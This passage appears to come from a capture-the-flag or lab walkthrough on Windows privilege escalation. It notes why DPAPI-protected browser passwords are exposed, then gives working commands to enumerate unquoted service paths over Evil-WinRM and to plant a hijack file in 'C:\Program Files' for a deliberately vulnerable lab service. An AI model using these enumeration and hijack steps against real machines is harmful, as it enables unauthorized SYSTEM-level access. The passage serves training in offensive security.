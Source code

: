 **Why Browser Passwords Are Vulnerable**:
- Encrypted with DPAPI (user context)
- Any process running as user can decrypt
- Users save everything for convenience

---

## Phase 5: Service Vulnerabilities

### Understanding Service Exploitation

**Why Services Are Vulnerable**:
- Run with high privileges (often SYSTEM)
- Installed by various software
- Administrators rarely audit them
- Unquoted paths are common

### Finding Unquoted Service Paths

```powershell
# Comprehensive search for unquoted paths
*Evil-WinRM* PS C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

FakeAntivirus     Fake Antivirus Service      C:\Program Files\Antivirus Software\Engine\av.exe         Auto
BackupManager     Backup Manager Service       C:\Program Files\Backup Manager\Service\backup.exe        Auto
RemoteSupportAgent Remote Support Agent        C:\Program Files (x86)\Remote Support Tool\Agent\agent.exe Auto
```

**The Vulnerability Explained**:
When Windows sees: `C:\Program Files\Antivirus Software\Engine\av.exe`

Windows tries to execute in order:
1. `C:\Program.exe`
2. `C:\Program Files\Antivirus.exe`
3. `C:\Program Files\Antivirus Software\Engine\av.exe`

If we can write to any of these locations, we win!

### FLAG 10: FakeAntivirus Unquoted Path

**Location**: FakeAntivirus service  
**Difficulty**: Easy

```powershell
# Check the vulnerable service
*Evil-WinRM* PS C:\> sc.exe qc FakeAntivirus

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: FakeAntivirus
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Antivirus Software\Engine\av.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Fake Antivirus Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

# Create exploit at hijack point
*Evil-WinRM* PS C:\> echo 'echo FLAG > C:\ws_unquoted1.txt' > "C:\Program Files\Antivirus.bat"
```